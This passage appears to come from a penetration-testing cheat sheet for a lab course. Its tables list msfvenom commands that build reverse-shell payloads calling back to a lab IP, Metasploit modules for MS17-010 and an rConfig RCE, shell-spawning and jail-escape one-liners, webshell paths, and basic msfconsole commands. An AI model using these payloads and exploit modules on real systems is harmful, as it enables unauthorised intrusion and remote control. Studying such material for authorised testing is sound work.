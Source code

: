 | `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS-based reverse shell payload |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | MSFvenom command used to generate a JSP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to `ms17_010` |
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6` |
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an `interactive shell` on a linux-based system |
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system |
| `perl —e 'exec "/bin/sh";'` | Uses `perl` to spawn an interactive shell on a linux-based system |
| `ruby: exec "/bin/sh"` | Uses `ruby` to spawn an interactive shell on a linux-based system |
| `Lua: os.execute('/bin/sh')` | Uses `Lua` to spawn an interactive shell on a linux-based system |
| `awk 'BEGIN {system("/bin/sh")}'` | Uses `awk` command to spawn an interactive shell on a linux-based system |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses `find` command to spawn an interactive shell on a linux-based system |
| `find . -exec /bin/sh \; -quit` | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system |
| `vim -c ':!/bin/sh'` | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells" |
| `ls -la <path/to/fileorbinary>` | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| `sudo -l` | Displays the commands that the currently logged on user can run as `sudo` |
| `/usr/share/webshells/laudanum` | Location of `laudanum webshells` on ParrotOS and Pwnbox |
| `/usr/share/nishang/Antak-WebShell` | Location of `Antak-Webshell` on Parrot OS and Pwnbox |

<a id="9-using-the-metasploit-framework"></a>
### 9. Using the Metasploit Framework

#### MSFconsole Commands 

| **Command**        | **Description** |
| :--------------- | :----------------------------------------------------------- |
| `show exploits` | Show all exploits within the Framework.                      |
| `show payloads`  | Show all payloads within the Framework.                      |
| `show auxiliary` | Show all auxiliary modules within the Framework.             |
| `search <name>` | Search for exploits or modules within the Framework.         |
| `info`         | Load information about a specific exploit or module.         |
| `use <name>` | Load an exploit or module (example: use windows/smb/psexec). |
| `use <number>` | Load an exploit by using the index number displayed after the search command. |
| `LHOST`        | Your local host’s IP address reachable by the target, often the public IP address when not on a local network. Typically used for reverse shells. |
| `RHOST`        | The remote host or the target. set function Set a specific value (for example, LHOST or RHOST). |
| `setg <function>` | Set a specific value globally (for example, LHOST or RHOST). |
| `show options` | Show the options available for a module or exploit.          |
| `show targets` | Show the platforms supported by the exploit.                 |